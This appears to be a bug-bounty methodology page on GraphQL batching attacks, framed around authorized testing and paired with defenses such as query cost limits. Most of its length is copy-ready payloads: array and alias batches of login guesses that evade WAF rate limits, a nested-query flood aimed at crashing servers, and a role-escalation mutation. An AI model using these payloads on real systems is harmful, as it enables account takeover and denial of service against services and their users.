

# GraphQL Batching Attacks

## When to Use
- When testing a GraphQL endpoint (`/graphql`) protected by standard, IP-based or token-based Rate Limiting (e.g., Akamai, Cloudflare, AWS WAF).
- During credential stuffing or password brute-forcing scenarios where the API enforces a limit of "5 login attempts per minute".
- To severely impact the backend database's availability (Resource Exhaustion DOS) by forcing thousands of massive, simultaneous queries that the frontend proxy interprets as a single web request.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Understanding Standard Rate Limiting Constraints The WAF

```json
// Concept: Standard REST APIs require one HTTP request per action: 
// POST /api/login -> "Username: admin, Password: 1" (Attempt 1)
// POST /api/login -> "Username: admin, Password: 2" (Attempt 2)
//
// The WAF simply counts the HTTP requests and blocks the IP address at Attempt 5.

// GraphQL is fundamentally different. It accepts an Array [] of completely distinct queries 
// within a single HTTP POST envelope. The WAF counts it as "One Request".
```

### Phase 2: Array-Based Query Batching (The Array Bypass)

```json
// Concept: Pass an array of multiple distinct operation requests to the server simultaneously.

// 1. The Payload:
[
  { "query": "mutation { login(username: \"administrator\", password: \"Password1\") { token } }" },
  { "query": "mutation { login(username: \"administrator\", password: \"Password2\") { token } }" },
  { "query": "mutation { login(username: \"administrator\", password: \"Password3\") { token } }" },
  ... // Pack 5,000 login attempts here
]

// 2. The Execution:
// Send one single HTTP POST request containing the JSON array.
// The GraphQL resolver (e.g., Apollo Server) iterates through the array natively, executing 
// all 5,000 database login checks bypassing the WAF's 5-per-minute restriction.
```

### Phase 3: Alias-Based Batching (The Object Bypass)

```graphql
# Concept: Alternatively, if Array batching is disabled on the server, utilize GraphQL "Aliases".
# Aliases allow you to request the exact same field or mutation multiple times in a single query 
# object by giving each execution a unique name (alias1, alias2).

# 1. The Payload:
mutation MultiLogin {
  attempt1: login(username: "admin", password: "Password1!") { token }
  attempt2: login(username: "admin", password: "Password2!") { token }
  attempt3: login(username: "admin", password: "Password3!") { token }
  # Continues for 10,000 lines...
}

# 2. The Execution:
# One HTTP POST is generated. The WAF explicitly allows it. 
# The application's database is immediately hammered by 10,000 expensive password-hashing operations synchronously. 
```

### Phase 4: Resource Exhaustion (Amplification DoS)

```graphql
# Concept: We pack 1,000 highly intensive Data Retrieval queries (rather than simple logins)
# targeting complex relationships to crash the server instantly.

# 1. The Payload (Alias Batching returning gigantic nested objects):
query Exhaustion {
  a1: users(limit: 1000) { comments { post { author { name } } } }
  a2: users(limit: 1000) { comments { post { author { name } } } }
  a3: users(limit: 1000) { comments { post { author { name } } } }
  # Repeats 500 times...
}

# 2. Result: The CPU spins to 100% and crashes attempting to resolve 500,000 nested database joins from a single HTTP transaction.
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Discover `/graphql` endpoint] --> B{Does the endpoint implement login or sensitive queries?}
    B -->|Yes| C[Send an Array of queries `[{},{}]`]
    C -->|Server returns results array| D[Vulnerable to Array Batching. Automate Brute Force!]
    C -->|Server returns 400 Bad Request| E[Server blocks Arrays. Attempt Alias Query Injection]
    E --> F[Send a combined Alias payload `mutation { a1:.. a2:.. }`]
    F -->|Returns massive JSON containing all aliases| G[Vulnerable to Alias Batching. Bypass rate limits/WAF!]
    F -->|Server Error / Timeout| H[Resource Exhaustion achieved! Possible DoS impact.]
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **Disable Array Batching natively**: If your application does not explicitly require bulk operations (e.g., Apollo Batch Http Link), explicitly disable array parsing at the server level (e.g., utilizing `apollo-server-express` configuration rules). If the client sends `[{},{}]`, issue an immediate 400 HTTP response.
- **Implement Query Cost Analysis (Complexity Limiting)**: Implement frameworks like `graphql-cost-analysis`. Assign a strict mathematical point value to mutations (Login = 10 points) and nested queries (Fetching relational Authors = 5 points). Reject any single HTTP POST query entirely if the cumulative complexity of the combined aliases surpasses a strict threshold (e.g., 100 points maximum).
- **Targeted Application-Level Rate Limiting**: Shift rate limiting away from the perimeter WAF (which only evaluates HTTP Headers/IPs) and directly into the GraphQL Resolver logic. The application code must count "Attempts per Username" identically, regardless if the attempts arrive as 100 HTTP requests or 100 Array elements within a single envelope.

## Key Concepts
| Concept | Description |
|---------|-------------|
| GraphQL | A highly flexible query language for APIs developed by Facebook, prioritizing giving clients specifically the data they ask for via a single, monolithic endpoint (`/graphql`) |
| Query Batching | An intentional architectural feature designed to reduce network round-trips by allowing clients to pack multiple GraphQL operations into a single HTTP request |
| Rate Limiting | The defensive paradigm of artificially restricting the processing speed or volume of incoming requests from an IP or token to prevent brute forcing and denial of service |
| Alias | Renaming the result of a field directly in the query to avoid conflicts when requesting the same functional endpoint multiple times with different variables |

## Output Format
```
Bug Bounty Report: WAF Verification Bypass via GraphQL Alias Batching
=====================================================================
Vulnerability: Rate Limit Bypass / Broken Authentication (OWASP API4:2023)
Severity: High (CVSS 8.1)
Target: `https://api.corporate.com/graphql`

Description:
The application's primary login mutation is purportedly protected by an IP-based rate-limiting perimeter Web Application Firewall (WAF) blocking users after 5 failed password attempts sequentially.

However, the GraphQL endpoint architecture permits extensive Query Batching utilizing Field Aliases. By dynamically stacking thousands of unique password guesses into a single synthesized mutation payload, an attacker fundamentally circumvents the perimeter HTTP metric tracker.

Reproduction Steps:
1. Capture a standard authentication POST request to the `/graphql` endpoint.
2. Utilize a generic scripting framework (or Burp Suite Turbo Intruder) to generate a customized payload inserting 2,000 distinct alias lines:
   `mutation Brute { p1: authenticate(user: "admin", pass: "123456") { token } ... p2000: authenticate(user: "admin", pass: "Pass123!") { token } }`
3. Execute the singular HTTP Post request.
4. The server natively executes all 2,000 password verifications synchronously without triggering an HTTP 429 Too Many Requests perimeter block. 
5. The resulting gigantic JSON response details precisely which alias (and thereby which password) succeeded.

Impact:
Entire validation layer (WAF/Cloudflare) rendered obsolete. Total vulnerability to automated Credential Stuffing campaigns against all registered users.
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (GraphQL)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Facebook/Instagram** | $30,000 | (Undisclosed) | GraphQL IDOR — brute-force media IDs → expose private content | 2023 |
| **Shopify** | $5,000 | (Undisclosed) | GraphQL `BillingDocumentDownload` — predictable invoice IDs | 2024 |
| **GitLab** | $1,160 | (Undisclosed) | GraphQL `Ml::Model` — incremental IDs → access all private ML models | 2024 |

**Key Lesson**: GraphQL APIs are consistently vulnerable to IDOR because developers expose 
introspection in production and use predictable IDs. The Facebook $30K payout proves GraphQL 
IDOR can be Critical-severity when it exposes private user content at scale.

**The GraphQL attack checklist that finds real bugs:**
```graphql
# 1. Always try introspection first
{ __schema { types { name fields { name type { name } } } } }

# 2. Look for mutations that accept user-controlled IDs
mutation { updateUser(id: "VICTIM_ID", role: "admin") { id role } }

# 3. Test batching for rate-limit bypass
[{"query": "mutation { login(email:\"a@b.com\", pass:\"pass1\") { token } }"},
 {"query": "mutation { login(email:\"a@b.com\", pass:\"pass2\") { token } }"}]
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [GraphQL Security (Bypassing rate limits)](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)
- Apollo Server Security: [Security guidelines (Query Cost)](https://www.apollographql.com/docs/apollo-server/security/security/)
- Escape.tech: [GraphQL Batching Attacks Explained](https://escape.tech/blog/graphql-batching-attacks/)
